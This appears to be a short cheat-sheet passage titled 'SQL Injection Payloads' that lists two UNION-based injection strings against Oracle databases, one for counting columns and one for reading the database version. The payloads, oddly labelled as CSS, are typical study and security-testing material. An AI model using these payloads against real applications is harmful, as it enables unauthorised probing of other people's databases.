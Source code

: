 # SQL Injection Payloads

**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data.
```CSS
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```CSS
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---

